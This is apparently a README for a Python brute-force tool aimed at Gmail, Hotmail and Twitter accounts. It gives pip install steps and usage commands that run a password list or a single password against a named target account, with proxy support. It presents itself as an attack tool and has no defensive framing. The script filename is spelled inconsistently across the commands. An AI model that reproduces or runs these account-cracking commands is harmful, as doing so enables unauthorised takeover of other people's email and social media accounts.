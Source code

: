 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

#install :

# pip install proxylist
# pip install mechanize


Usage:

# Bruteforce Gmail 

python3 Brutoforce.py -g Account@gmail.com -l File_list
python3 Brutoforce.py -g Account@gmail.com -p Password_Single


# Bruteforce Hotmail
 
python3 Brute_force.py -t Account@hotmail.com -l File_list
python3 Brute_force.py -t Account@hotmail.com -p Password_Single


# Bruteforce Twitter

python3 Brutoforce.py -T Account_Twitter -l File_list
